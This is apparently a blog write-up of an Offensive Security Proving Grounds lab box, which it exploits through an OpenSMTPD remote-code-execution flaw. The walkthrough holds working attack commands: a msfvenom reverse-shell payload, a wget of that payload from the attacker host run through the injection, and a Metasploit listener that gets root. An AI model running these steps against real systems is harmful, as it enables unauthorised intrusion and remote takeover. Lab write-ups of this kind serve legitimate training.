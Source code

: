 ```yaml
---
layout: post
author: H4
---
```


This is an Offensive Security proving grounds practice box.

---

# enumeration

Starting with a `nmap` scan to identify the attack surface of the target.

## nmap
```bash
$ nmap -Pn -p22,25,80,445 -sV 192.168.152.71
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-30 16:11 EST
Nmap scan report for 192.168.152.71
Host is up (0.10s latency).

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
25/tcp  open  smtp        OpenSMTPD
80/tcp  open  http        nginx 1.14.0 (Ubuntu)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: COFFEECORP)
Service Info: Host: bratarina; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.34 seconds
```

---

# exploitation

`OpenSMTPD` looks like it is worth a look.

## search for an exploit
```bash
$ searchsploit opensmtpd                                                           
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                            |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
OpenSMTPD - MAIL FROM Remote Code Execution (Metasploit)                                                                                                                                                  | linux/remote/48038.rb
OpenSMTPD - OOB Read Local Privilege Escalation (Metasploit)                                                                                                                                              | linux/local/48185.rb
OpenSMTPD 6.4.0 < 6.6.1 - Local Privilege Escalation + Remote Code Execution                                                                                                                              | openbsd/remote/48051.pl
OpenSMTPD 6.6.1 - Remote Code Execution                                                                                                                                                                   | linux/remote/47984.py
OpenSMTPD 6.6.3 - Arbitrary File Read                                                                                                                                                                     | linux/remote/48139.c
OpenSMTPD < 6.6.3p1 - Local Privilege Escalation + Remote Code Execution                                                                                                                                  | openbsd/remote/48140.c
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
```

> `OpenSMTPD 6.6.1 - Remote Code Execution`: `linux/remote/47984.py` looks promising.
{: .prompt-info }

```bash
$ python3 47984.py 192.168.228.71 25 'whoami'                                 
[*] OpenSMTPD detected
[*] Connected, sending payload
[*] Payload sent
[*] Done
```
> It seems to be a blind command injection as we do not get any text response to our command.
{: .prompt-info }

---

# post exploitation

We start by getting a reverse shell.  
When trying to get the reverse shell it was not possible to trigger a simple `bash` shell, so uploading a `meterpreter` executable and executing it made the trick here. 

## download `meterpreter` to target
### generate a `meterpreter` binary
```bash
$ msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=192.168.49.228 LPORT=445 -f elf > shell.elf 
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 1037680 bytes
Final size of elf file: 1037680 bytes
```

### start web server on attacker machine
```bash
$ python3 -m http.server 80 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

### download meterpreter to target
```bash
$ python3 47984.py 192.168.228.71 25 'wget 192.168.49.228/shell.elf -O /tmp/shell'
[*] OpenSMTPD detected
[*] Connected, sending payload
[*] Payload sent
[*] Done
```

```bash
$ python3 -m http.server 80 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.228.71 - - [31/Jan/2022 00:33:11] "GET /shell.elf HTTP/1.1" 200 -
```

> The download seemed to work!
{: .prompt-info }

## set permissions and execute `meterpreter`
### set permissions
```bash
$ python3 47984.py 192.168.228.71 25 'chmod +x /tmp/shell'                       
[*] OpenSMTPD detected
[*] Connected, sending payload
[*] Payload sent
[*] Done
```

### start metasploit listener
```bash
msf6 exploit(multi/handler) > options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (linux/x64/meterpreter_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.49.228   yes       The listen address (an interface may be specified)
   LPORT  445              yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.49.228:445
```

### execute payload
```bash
$ python3 47984.py 192.168.228.71 25 '/tmp/shell'                                 
[*] OpenSMTPD detected
[*] Connected, sending payload
[*] Payload sent
[*] Done
```

```bash
$ msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.49.228:445 
[*] Meterpreter session 1 opened (192.168.49.228:445 -> 192.168.228.71:49062 ) at 2022-01-31 00:33:24 -0500

meterpreter > getuid
Server username: root
```

> And we got a root shell :-)
{: .prompt-info }

---

# get the flag
```bash
meterpreter > shell
Process 1665 created.
Channel 1 created.
whoami
root
ls
proof.txt
cat proof.txt
e******************************a
```

Pwned! <@:-)
